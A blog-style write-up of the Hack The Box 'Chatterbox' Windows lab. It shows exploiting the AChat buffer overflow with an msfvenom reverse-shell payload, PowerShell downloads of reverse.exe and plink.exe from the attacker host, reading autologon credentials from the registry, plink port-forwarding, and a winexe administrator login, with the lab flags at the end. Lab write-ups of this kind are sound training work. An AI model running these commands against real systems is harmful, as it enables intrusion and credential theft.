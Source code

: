 ```yaml
---
layout: post
title:  "HTB Chatterbox Windows"
description: Tools and Techniques used, msfvenom, windows enumeration, port forwarding
tags: Windows, HTB, enumeration
---
```

# Chatterbox
# Recon
1. Nmap scan
```ruby
PORT     STATE SERVICE REASON          VERSION
9255/tcp open  http    syn-ack ttl 127 AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   syn-ack ttl 127 AChat chat system
```
![](https://lh3.googleusercontent.com/Ow3sXRep1uPWbz4lXhpFvPsKqG_lXQ_MqEDiewySwDGwFJK78AlJffdYrzFyWKPLKTysXJcJkFUDkTDhion_cUnvyqhkBfmyPQ_ZrTgnPkj25O0XXarfcs8KbC_JP2hblOuJrKL1two5ZkEcPb5pimX4wsddGgz4F7P1R5ACbrsMJiHAT1Xl-n_QkroP_xyB2TTIxxORo0xD4yXDJRVXXjOlAE9D6-U7xB8h41fSdeQoA176bBKF7xKf8w1wo8bbRSszz-Z-_IfF2wAhXmtMwwgf_OlUbog4qcQ6N8Os31Oywb_qaGtV59gs3xpPlrMZ7uKzh8GH_a-NR1JIkqEPF4IvGg1YmOKPMftdJkdxK7uG2qRcMGfAd9ippX_otvp1KY_mLz7bEfegGM8ft_IZ8iqtE0yLMMryuWJ5p3HoZbhwZzqLMHjopIrGx0oH4XGAwIsFxegKAscyn9JxkwXNSq_UapuAiLuviMnRlGFCLjsCReSscSThWWVkX0tLjY3nSD50o8iapeaZaQiimVpxqji3xTTx3ijBzWhfzRqlsJAylFfmUAfuCsqHnTn2NRFglhBG92Bbw78JNs4RuHQDlGwX9_bNZzJzHL8hwqGka-g8jzXrcdoSq-xQAiP6Yimuk8PQELf1b-UeQmO2UpsTyMQtiMG5iWrcU8UrHOV0nVpRH3m-GYouIek=w634-h248-no)

# EXPLOITATION
1. We use Achat python exploit "CVE:2015-1578 2015-1577"
2. We generate shellcode to use with the Achat BoF
```ruby
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e x86/unicode_mixed -b
'\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d
\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c
\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba
\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9
\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8
\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7
\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6
\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' 
BufferRegister=EAX -f python
```
3. We set-up nc and we get a reverse shell as user Alfred.

**Optional**: You can also create a `meterpreter` shell with msfvenom and upload it to the target machine. Then use multi/handler to catch it.Ex
```ruby
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.34/reverse.exe', 'reverse.exe')"
```
![](https://lh3.googleusercontent.com/E0KTtqED2h8NIIbu0TeAYzb_ZdtqpaWwMKpTnsVsF3sUjhBh7w017TcrkHWs8QSkfKLxseMPKHVS3ic6w60KZuBRs464UDvZb1BLy1ev_oCauy3a1e31bWoAOUSxwjeTuMkiPY2RxasW3vYYzdEWQlYa3OsYg_2Tfy9n_IKaAyjpBUf7kZXk7bWzbsT6Rsip-lnqI9OKtnuro5vQXYusqJA3lggcf0siKmIgM7Kr0yMdPs6lHqb9uokZYnGJ1zMWUNuOU7h-SiXUVcW8ayedQVYSi1Z0J8fqbZle8kFBQa2GEpDS7oNpEj95L00oaBcWJRZ46cEA_9UntAMA9xd3fFOr6eOA9dgqCknPSksADSeoEn6QuUsqlkAIYgbJ84zt9TEUfFw4gTQavyyrIeAWck4r7utnygDfzwPdeng6RKhR53yMP9xE5QdPnDDEYXHXeBGXkgJHJTtUTT7fdwWlROq4gMSmjOLdOUEl00r0P-YVJnmVbpZ4nNvDQn6kWWDygYd26o5CTG4bkS3b21DuW_Wj0aMBoDhLuXNrJA9-M_5XtJm6CoxxLV-ACYJGd6tsDBOvjrNuBqzMNQ2CQh1FmiSoGnahyooXZ3hrZvp2O7s29hnrPYkhpcjcXEdKVNHJuXcHgiv6emknwMetDGrXXlThMkAAzMpFoXPAFH-PKI7C9ulnhYTbB6I=w610-h500-no)

# Privilege Escalation Port-forwarding
1. Doing some priv-esc check we find the password for user Alfred

```ruby
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```ruby
DefaultDomainName    REG_SZ    
DefaultUserName    REG_SZ    Alfred
DefaultPassword    REG_SZ    Welcome1!
```
![](https://lh3.googleusercontent.com/w8M3b82YBZqWsjkFH52BdDXFg08eoMzGRCu1ZhaHPAWFcbMD2USy-g7-qIswTFJ2t0Ai-c2uB6R0kpgCH1aRyqDYBsSBq-y4AIkiiN1EmMheKfhYUJdjL6my0AhUee3Od2RlC8YTq8H8XiyAJab3d1TzgNxHfOZeUgHPonBV0w4VtaHe5lENmhOJT1FQAZQRini2zh1xStD7anH1g1gnRdVhGuatw0sxlWZ6sDLwVNu8gDb5TwAwmLxOTZ99JX_y_d3lh351cJNubcjjBa1B-oUkFYT6SZPdECW1yIoqtE6s4KX5xnxkOEuPtdvLrLZSX5QQn-04EgqnUS48DmIgwXjYH9DMV4nbwfEgqq5jBf9fdNnpKodiFHrCVABcrkKnxVogEbtKUFxBd3TLNhG6gXAV3UbtHkh9TGPu1Jqq2RrFbqG-Wu0y7XxTXWnqYMx_WpDnK21BZwjZv7hUD8-u5T0evNwNiZUPWyXA3IC4RvS10aX_UwbzFWnLAujE3Wr27vE0C1r0qEWCWUqKmHFgsG5pEHQpzJt_OXnpXBrKlvKC8hcn51iP208DNvyDQHmOPz8espFyrcu0Vq9Jj6BrtOROWT3PXkEn7l4Tk3gpJLtIPqn5UFRednoDMgb7tp3bTym_5rHpswPsENPZY3tpkBJRSHdAF3lxWWKJ4KfUmBG6p97mA06nH_A=w795-h156-no)

2. We use the obtanined credentials and try to reuse them with the admin account. To do that we need to set up SSH in our machine
and  open smb port 445 in our target machine using "plink.exe". Then we do a port-forwarding and then a reverse connection. 
First.
```ruby
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.34/plink.exe', 'plink.exe')"
```
![](https://lh3.googleusercontent.com/hLxLdIRfKxQy28HlU6nV2w6JFmlMM7a3afhb2IxG_e4Ykz1FaZXiBsPq0zJIv9ezpDsKXHYm8irI5edlg1MYtsWOZudH6Onf-WxFLvbGarZ6qGYtrTN28Ai6z4whmkHJLH5iO0g2hWAp0QitHrvwbup2Lc7Z7lg2wHwWKRJ9AJ1nkVoYNVuJ-LtSl3DeJ6Hk6ZHQqwHqQoT0Wpitw15BrCyetmGr55kmVqAAG2SwEZVU_Bp0yC7B_EBz184H2KhvJUZQ_NGKbxqqSUOUhHrj9aKHFTEX1mJ-869u4fE6oimEY37Nv0w4yDWCcXOsvXM7sJGHAdLGm1Z001nIRcMiTIx8k1dVXmxqSULC1XtoPL56b0nH5yP3k8SRx88o--AYyyFY5mzURdVim5v3k9_rkUZZ9F4eJGHQOD-VzdqjQjNrNdgKQhk_LKmCT1y2i5ZGHTBxLfUUR2we1i_EIxnGUhVeleSP1oJT6vM06XlOnVYgLJC2uI5mOQHy42WVTnpeEyehVF5ClrSUIcbrROyl5zIs0E3dKOzaSzZIaIvbSujjUZl4Rtp01kyyhGgXRoSCjjqFxtLgesGCKzy3Mf_siDbhqIJfebTaUgtP76LNqyenmXgobsEiFdl6uAAapSDtUkcuTbTD84oCSsjFxoFzLCi6MqwiTd55ychDJTKYL5J1mesYYWDrX4o=w573-h319-no)

![](https://lh3.googleusercontent.com/ABF0QL82Mey0TC-c-kbA1mjoM4JsuHBECUzDFAghPFjcG6GC7PanvKqO7X2_v0cFmBNPzNhm6Le7GyJLEFFLggQaWnE3pvvZIMHCmf8Ot1QUEYta-S-poJnV_5oD4Gatwdi6SeYJvuxhbfEvf1rbxh8xExHZrOgYNCs9CPbWJNjxmY4KsF4o-CEt0RWkcAXVEnM7NZAWP_nd6cw8fqkMHP2HlDfBvjXh0URXLWdQJlUqT78-8Lhex2GejC9-I3EQqL6k_AcqCJJhQ9fDmuNnD0ChvbZZtKyJVyfse6URGDW0Hdhfa9rWDGX-AQ2gcC7zD4XnX9_1w1rDccvwz1NZCclaT3M02vR3qnMvsNhnOg9_24pEFSodDSLUdSNKFShEcUeqgVs36nyQM9XWmYV0ElpqYvGSnP7dcpCqHaH2xR-aHfFIy0Xrw-cYeNgN9EYlhcJ0T9tO5X54rBo3vMJ0PWNwBs_UjjL_Ows6Bq6VkWT9T-jWHtbGREfd0xboX6yMetg32u6Pf1hc9QK4U92oJPGNFjn6Ir7A7nT245KHjKDyouZqvGmWH1NWvneHfDs1k_8Ur-F93cHJMQhwV9Qq9ThFch11iRHFm41jmXN_8AaOSMTNjZKuh1mzIOMK-eKVntM1bwUiWV-TSs_liP05m_oInhZa6MZrXPRCj7foAQwPetDeuvAf2VM=w995-h94-no)

Then.
```ruby
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.34
```
![](https://lh3.googleusercontent.com/3hgewaHdfTeTGCjqWaAFIJpoNsUznouWC1xlwtoIgnhF6HpRn22Z0FbnrDC8mXzVf9_5xwQe3rJi16uK83JauxdvQ3hvMnNz83WR-ff7CiC29tmWxPIElI6e47v80VrQD04tjeaLPel2qJEfv3qwDMAwzXYz99LO8PYoloRu2zuf1GiE-yTbBG4QIWhzr7WXpCOs7_kgYueM46LQhoxZinHBrhe6sVxhFpra-49dHolelEogpxFSEj0Nf1m5xeE_toUHaY9cDYwmdPm8bjZ8_gOd1PlsChrRNMj0QFQ-YyXvAN5kWocC7zQ86p42jrFxRQlhbIEoQQGBMun81Zfd9nUh6pmYuVJ1Yu6jtvaOm0bAjN7sG_ziN964v9_0DPjaFlpNbsB03AM3pSxpzUwIQXQVLQ61WuRYTNF1039tiKnfG6AeXCP5TuQqS5z-BpVQ29hyD44B_KR8MChHtQRHy2tpuxjEAdxpZa-HoFHmTjau7TSuEDe0FGynjcLVuUgcnTMCkJnF2BXme1LENos41q_CFiJCBswLoe3V5Y84VUUkNWd4-H0GfWW5Z4D50pMW3wPVYd3JaHmNI2aPydPlkoUT1Vjna9RETPovCkd-2DAxu4Q6ItEDFl4qkEG7tBX3SYbZ_vwcsb3oOZC4cCvo5V3LBewHKcbC6myd9b-77gUIwK-vF2W8EC8=w671-h377-no)

3. We check with netstat to make sure the port 445 is open and connecte to us
4. The we connect reverse using `winexe` and password `Welcome1!` and we get Admin.
```shell
winexe -U Administrator //127.0.0.1 "cmd.exe"
```
![](https://lh3.googleusercontent.com/qJ_iqW9ZDj5NmYHAZhf9jIyp64xLkOF40n8BlPayOvlhVlO6ES1Ud4QqmtpzKuR_jeKSZFcUhGcM5wHNsX089y1-UEH-czLi5PQDnrWRpHcLiRC4HN0a1t_gH6w84RyS2AlIS_vb1ocXjiOV04l-fyvKXqjzqXO0dx2fEG5Siq8hQrJTKsXsDt3yGy_gvGbjLC25SQq97tleHu8n4SCnv2Cjc6DD_6KwehKy7RrJw601snGgZs1Lyx3dpGCcYkOqq2agv-ByaJqWdbhu8cWlzmKQIj-TpuYuFSknz0G0NAjmb0f3IN-ozXv7dP284IcPrDprQFC88QeD_PHfaowY7KERozetcjAFuo1zvQXVDf4Ke20SNOF8lUH8HxjFJxR3uWM8tDu5z9PeTSwvX7NDl2QewQvC1iWSBpNhYotcvim9J4AekXJfTRoUJ1kzaKhbWc7l52ycI8xMUEL9cO0MTMRWN99oD-4KYzZuuGliQT96SpupGQh6PBo9NHgiESB60RbgoAC0bBYDmNkiFzz8VfnDTisQUcXlNpxhvp292s0gjKAhlB04IKC2kKdzPetPbnp51hdsYQ9bFMXerg5vguBK7hew6k6bgzewhoQ5otrBQdVh68vowY2lKnV3aDVD_YnWwP0K2gjFDVUmMUj4rmf95niOwpzc6AGgxgihyn64Q88xaoL6Hq8=w698-h203-no)

# FLAGS
* USER 72290246dfaedb1e3e3ac9d6fb306334
* ROOT a673d1b1fa95c276c5ef2aa13d9dcc7c 

